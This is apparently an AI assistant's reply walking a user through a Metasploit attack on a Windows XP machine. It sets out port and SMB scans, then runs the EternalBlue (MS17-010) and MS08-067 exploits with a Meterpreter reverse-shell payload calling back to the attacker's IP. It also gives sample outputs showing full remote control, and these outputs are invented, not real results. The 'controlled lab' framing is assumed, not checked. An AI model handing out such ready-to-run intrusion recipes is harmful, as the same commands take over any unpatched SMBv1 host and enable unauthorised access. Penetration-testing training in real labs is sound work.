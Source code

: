 Spinning up a Windows XP server with the firewall turned off and file sharing enabled creates a highly vulnerable target, as Windows XP (end-of-life since April 2014) lacks modern security patches and is susceptible to numerous exploits, especially with SMB file sharing exposed. I’ll walk you through using Metasploit to scan this system for vulnerabilities and then test remote control via an exploit, assuming you’re doing this in a controlled, legal lab environment (e.g., for forensic or educational purposes as CISO).

Let’s proceed step-by-step, targeting the Windows XP machine from your Metasploit instance (e.g., on your Debian 12 or Windows machine).

---

### Step 1: Preparation
1. **Target Details**:
   - IP Address: Identify the Windows XP server’s IP (e.g., `192.168.1.39`).
   - Assumptions: Firewall off, file sharing on (SMB ports 137-139, 445 open), no updates applied (default XP state).

2. **Attacker Details**:
   - Your Metasploit machine’s IP (e.g., `192.168.1.36`).

3. **Launch Metasploit**:
   ```
   msfconsole
   ```

4. **Update Metasploit** (optional but recommended):
   ```
   msfupdate
   ```

---

### Step 2: Scan for Vulnerabilities
We’ll use Metasploit’s auxiliary scanners to identify open ports and vulnerable services on the Windows XP server.

#### 1. TCP Port Scan
- Check for open ports:
  ```
  use auxiliary/scanner/portscan/tcp
  set RHOSTS 192.168.1.39
  set PORTS 1-65535
  set THREADS 10
  run
  ```
- **Expected Output**:
  ```
  [+] 192.168.1.39:135 - TCP OPEN  (RPC)
  [+] 192.168.1.39:139 - TCP OPEN  (NetBIOS-SSN)
  [+] 192.168.1.39:445 - TCP OPEN  (Microsoft-DS)
  [*] Scanned 1 of 1 hosts (100% complete)
  ```
- **Key Ports**: 139 and 445 (SMB) are critical due to file sharing being enabled.

#### 2. SMB Version Scanner
- Confirm SMB service details:
  ```
  use auxiliary/scanner/smb/smb_version
  set RHOSTS 192.168.1.39
  run
  ```
- **Expected Output**:
  ```
  [+] 192.168.1.39:445 - Host is running Windows XP (SMBv1)
  [*] Scanned 1 of 1 hosts (100% complete)
  ```
- **Note**: Windows XP uses SMBv1, which is notoriously insecure.

#### 3. SMB MS17-010 Scanner (EternalBlue)
- Test for the MS17-010 vulnerability (exploitable on unpatched XP):
  ```
  use auxiliary/scanner/smb/smb_ms17_010
  set RHOSTS 192.168.1.39
  run
  ```
- **Expected Output**:
  ```
  [+] 192.168.1.39:445 - Host is likely VULNERABLE to MS17-010! (Windows XP SP3)
  [*] Scanned 1 of 1 hosts (100% complete)
  ```
- **Significance**: MS17-010 (EternalBlue) allows remote code execution via SMB—perfect for your setup.

#### 4. NetBIOS Scanner (Optional)
- Enumerate file shares:
  ```
  use auxiliary/scanner/smb/smb_enumshares
  set RHOSTS 192.168.1.39
  run
  ```
- **Expected Output**:
  ```
  [+] 192.168.1.39:445 - Share: IPC$ (IPC Service)
  [+] 192.168.1.39:445 - Share: C$ (Default share)
  [*] Scanned 1 of 1 hosts (100% complete)
  ```

---

### Step 3: Test Remote Control with an Exploit
Since MS17-010 (EternalBlue) is a well-known vulnerability for Windows XP and your setup (firewall off, SMB on) makes it highly likely to succeed, we’ll use it to gain remote control.

#### 1. Select the Exploit
- Load the EternalBlue exploit:
  ```
  use exploit/windows/smb/ms17_010_eternalblue
  ```

#### 2. Configure the Exploit
- Check options:
  ```
  show options
  ```
- **Sample Output**:
  ```
  Module options (exploit/windows/smb/ms17_010_eternalblue):
     Name     Current Setting  Required  Description
     ----     ---------------  --------  -----------
     RHOSTS                    yes       The target host(s)
     RPORT    445              yes       The target port
  ```

- Set the target:
  ```
  set RHOSTS 192.168.1.39
  set RPORT 445
  ```

#### 3. Set a Payload
- Choose a Meterpreter reverse shell for remote control:
  ```
  set PAYLOAD windows/meterpreter/reverse_tcp
  ```
- Configure payload options:
  ```
  set LHOST 192.168.1.36  # Your Metasploit machine’s IP
  set LPORT 4444           # Port to receive the connection
  ```

- Verify settings:
  ```
  show options
  ```

#### 4. Launch the Exploit
- Run the exploit:
  ```
  exploit
  ```
- **Expected Output**:
  ```
  [*] Started reverse TCP handler on 192.168.1.36:4444
  [*] 192.168.1.39:445 - Sending exploit packet...
  [+] 192.168.1.39:445 - Exploit successful
  [*] Meterpreter session 1 opened (192.168.1.36:4444 -> 192.168.1.39:12345)
  meterpreter >
  ```

#### 5. Interact with the Session
- If successful, you’re in a Meterpreter shell. List sessions:
  ```
  sessions
  ```
- **Output**:
  ```
  Active sessions
  Id  Type                   Information
  --  ----                   -----------
  1   meterpreter x86/windows  Administrator @ XP_MACHINE
  ```

- Interact with the session:
  ```
  sessions -i 1
  ```

- Test remote control:
  ```
  sysinfo          # Displays OS info (e.g., Windows XP SP3)
  dir              # Lists files (works in Meterpreter on Windows)
  shell            # Drops to a command prompt
  ```
- In the shell:
  ```
  dir
  net user
  ```

---

### Step 4: Analyze and Explore
- **Vulnerabilities Found**: MS17-010 is confirmed exploitable, and SMB shares are accessible due to file sharing being enabled.
- **Remote Control**: You now have a Meterpreter session, allowing full control (e.g., file access, command execution).
- **Additional Exploits**: If EternalBlue fails (unlikely here), try:
  - `exploit/windows/smb/ms08_067_netapi` (another XP SMB flaw):
    ```
    use exploit/windows/smb/ms08_067_netapi
    set RHOSTS 192.168.1.39
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 192.168.1.36
    set LPORT 4444
    exploit
    ```

---

### Notes
- **IP Addresses**: Replace `192.168.1.39` (XP server) and `192.168.1.36` (your machine) with your actual IPs.
- **Firewall Off**: Ensures SMB ports are accessible, making this attack trivial.
- **XP’s Age**: Unpatched XP is a goldmine for exploits—EternalBlue is just one of many options.
- **Safety**: Keep this isolated (e.g., in a VM network) to avoid accidental harm.

You’ve now scanned your Windows XP server and gained remote control! Let me know if you hit any snags or want to try another exploit.